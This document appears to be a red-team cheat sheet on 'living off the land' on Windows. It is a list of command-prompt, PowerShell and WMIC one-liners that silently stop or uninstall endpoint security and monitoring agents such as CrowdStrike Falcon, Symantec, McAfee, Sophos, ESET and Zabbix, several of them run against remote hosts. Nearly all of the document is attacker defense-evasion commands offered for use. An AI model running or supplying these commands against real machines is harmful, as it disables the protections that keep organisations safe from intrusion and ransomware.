 # Living off the Land

TODO: Convert command prompt to Powershell cmdlets

## 01 - Uninstall Third-Party Endpoints

### 1.1 - MalwareBytes

#### 1.1.1 - Command Prompt

```
C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot
```

#### 1.1.2 - PowerShell

```
PS C:\> Start-Process -FilePath "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" -NoNewWindow -ArgumentList ("/silent","/noreboot")
```

## 02 - Disable Third-Party Endpoints

### 2.1 - CrowdStrike

Command Prompt

```
C:\> net.exe stop "CrowdStrike Falcon Sensor Service"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "CrowdStrike Falcon Sensor Service" }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd.exe /c "net.exe stop \"CrowdStrike Falcon Sensor Service\"" }
```

### 2.2 - Symantec

Command Prompt

```
C:\> net.exe stop "Symantec Endpoint Protection"

C:\> sc.exe \\<IP> stop "Symantec Endpoint Protection"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Symantec Endpoint Protection" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Symantec Endpoint Protection"}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd.exe /c "net.exe stop \"Symantec Endpoint Protection\""}
```

### 2.3 - Zabbix

Command Prompt

```
C:\> net.exe stop "Zabbix Agent"

C:\> sc.exe \\<IP> stop "Zabbix Agent"
```

Powershell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Zabbix Agent" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd /c "net.exe stop \"Zabbix Agent\""}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Zabbix Agent"}
```

## 03 - Uninstall Endpoints

### 3.1 - Syntax

#### 3.1.1 - Command Prompt

```
C:\> wmic product get name /value
```

> [!NOTE]
> Some AVs particular anti-malware that is installed in windows taken measures to prevent attackers to uninstall it. But not all of them. When uninstalling the software you must have **administrative privileges**.

```
C:\> wmic product where name="<software_name>" call uninstall /nointeractive
```

#### 3.1.2 - Powershell

Convert the commands to cmdlets

```
Get-WmiObject
Get-CimAssociatedInstance
Get-CimInstance
Get-CimClass
Get-CimSession
```

### 3.2 - CrowdStrike

#### 3.2.1 - Command Prompt

```
C:\> wmic.exe product where "description='CrowdStrike Sensor Platform'" call uninstall /nointeractive
```

### 3.2 - ESET

#### 3.2.1 - Command Prompt

```
C:\> wmic product where name="ESET File Security" call uninstall /nointeractive
```

### 3.3 - McAfee

#### 3.3.1 - Command Prompt

```
C:\> wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive

wmic product where name="McAfee Agent" call uninstall /nointeractive

wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive

wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
```

### 3.4.1 - MalwareBytes

#### 3.4.1.1 - Command Prompt

```
C:\> wmic product where name="Malwarebytes Managed Client" call uninstall /nointeractive
```

### 3.5.1 - AVG

#### 3.5.1.1 - Command Prompt

```
C:\> wmic product where name="AVG 2015" call uninstall /nointeractive
```

### 3.6 - Webroot

#### 3.6.1 - Command Prompt

```
C:\> wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
```

### 3.7 - Symantec

#### 3.7.1 - Command Prompt

```
C:\> wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive

wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
```

### 3.8 - Sophos

#### 3.8.1 - Command Prompt

```
C:\> wmic product where name="Sophos System Protection" call uninstall /nointeractive

wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive

wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
```

---
## References

- [LOFLCAB: Win32_Product](https://lofl-project.github.io/loflcab/WMI/Win32_Product/)